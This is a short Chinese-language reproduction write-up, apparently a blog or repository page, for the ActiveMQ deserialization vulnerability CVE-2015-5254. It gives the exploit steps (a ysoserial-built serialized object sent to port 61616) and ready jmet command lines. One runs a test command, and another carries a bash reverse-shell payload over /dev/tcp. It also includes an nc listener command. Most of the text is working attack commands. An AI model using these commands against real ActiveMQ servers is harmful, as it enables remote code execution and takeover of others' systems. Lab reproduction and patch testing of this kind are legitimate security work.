

# [ActiveMQ反序列化漏洞（CVE-2015-5254）复现](https://www.cnblogs.com/backlion/p/9970516.html)

[CVE-2015-5254](http://www.manongjc.com/detail/9-xzaxntkqsbkwqzd.html)

## 漏洞复现

 1. 漏洞利用过程如下：

2. 构造（可以使用ysoserial）可执行命令的序列化对象

3. 作为一个消息，发送给目标61616端口

4. 访问的Web管理页面，读取消息，触发漏洞


## 2.使用jmet进行漏洞利用:

使用jmet执行命令：
```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME   [目标IP]  61616
```

然后访问
```
http://**your-ip**:8161/admin/browse.jsp?JMSDestination=event

```
看到这个队列中所有消息：



说明漏洞利用成功

## 漏洞利用：

反弹shell:
```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/目标IP/12340>&1" -Yp ROME [目标IP]  61616
```


## 远程主机监听1234端口：
```
nc  -lvvp 1234
```


